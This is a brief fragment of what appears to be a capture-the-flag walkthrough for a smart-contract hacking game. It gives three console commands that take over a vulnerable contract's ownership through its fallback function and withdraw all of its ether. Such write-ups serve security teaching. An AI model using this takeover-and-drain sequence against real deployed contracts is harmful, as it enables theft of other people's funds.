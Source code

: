 * Send some ether via `contract.contribute({from: player,value: toWei("0.000001")})` method.
* Now send some ether via `sendTransaction({from: player,to: instance,value: toWei("0.000001")})` to get the ownership of contract.
* `contract.withdraw()` all the money in the contract.
